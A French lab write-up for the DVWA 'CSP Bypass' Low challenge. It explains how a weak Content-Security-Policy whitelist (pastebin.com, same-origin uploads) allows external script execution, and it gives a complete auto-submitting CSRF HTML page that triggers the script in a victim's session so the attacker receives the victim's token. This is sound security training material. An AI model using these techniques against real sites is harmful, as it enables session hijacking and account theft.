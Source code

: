# Niveau "Low"

Le challenge en niveau "Low" invite à saisir une URL afin d'exécuter un script externe :

![](../../../../.gitbook/assets/83d66bf2506d8abbf52df7aa04c8491c.png)

Etant donné que le challenge porte sur CSP, j'analyse la politique en place :

![](../../../../.gitbook/assets/4c95c1893c15a69870cccd04fed456fd.png)

```
Content-Security-Policy: script-src 'self' https://pastebin.com example.com code.jquery.com https://ssl.google-analytics.com
```

Ce qui donne pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `https://pastebin.com` : Autorise l'exécution de ressources hébergées sur _https://pastebin.com_
* `example.com` : Autorise l'exécution de ressources hébergées sur _example.com_
* `code.jquery.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _code.jquery.com_
* `https://ssl.google-analytics.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _ssl.google-analytics.com_

Ma première idée est d'exploiter la vulnérabilité de file upload trop permissive qui va me permettre d'uploader sur la plateforme un fichier javascript malicieux. Ce fichier aura donc la même origine que celle de l'application :

![](../../../../.gitbook/assets/abd8c00a65a0114f8bf3bb217a51e642.png)

Etant donné qu'il est possible d'accéder directement au fichier, je peux soumettre son URL dans le formulaire du challenge CSP :

![](../../../../.gitbook/assets/f4cdd55c232175ca8a47209179707fb7.png)

Cela permet de contourner la source `'self'` du CSP.

Concernant la liste blanche d'URL autorisées, `https://pastbin.com` va me permettre également l'exécution de script :

![](../../../../.gitbook/assets/9fe51b4422633e6f836324885e0175fa.png)

Pour l'exploitation, j'utilise le mode "raw" afin de soumettre l'URL à DVWA :

![](../../../../.gitbook/assets/95f6e25ce122eccbf6fea456fa91fdbf.png)

Ce qui permet de faire exécuter un script contrôlé par mes soins tout en respectant la liste blanche imposée par DVWA :

![](../../../../.gitbook/assets/072bf6bc8bdd3c9cd0d964b3f5f0fd69.png)

Il suffit d'adapter la payload malicieux afin de récupérer le jeton de la victime :

![](../../../../.gitbook/assets/f553280d21b7d08019c14bdb7584c2f3.png)

Reste maintenant à savoir comment s'y prendre pour que l'attaque affecte un autre utilisateur. En effet, la requête n'est pas de type **`GET`** mais de type **`POST`**, ce qui m'empêche de partager facilement un lien forgé à la victime :&#x20;

![](../../../../.gitbook/assets/26904d65167ec3365c6c78f8fb603a0f.png)

La solution que j'ai trouvée pour remédier à ce problème est d'utiliser la faille CSRF présente dans cette requête (aucun mécanisme de protection n'est présent). Il me faut donc héberger sur un serveur d'attaque la page malicieuse suivante :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
    <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
      <input type="text" name="include" value="https://pastebin.com/raw/GSVw7nnZ">
      <button type="submit">Envoyer le message</button>
    </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Puis de fournir à la victime le lien permettant d'accéder à ma page, par exemple `http://192.168.56.182/dvwa/post_xss.html` :

![](../../../../.gitbook/assets/7fa84faa90d73ff547b4b042fe15240a.png)

La victime, obligatoirement authentifiée, sera redirigée (ce qui déclenchera l'exécution de notre script) vers le site du challenge CSP de DVWA et l'attaquant réceptionnera son jeton :

![](../../../../.gitbook/assets/22eb6eb75298fced197214c1f6f963fc.png)
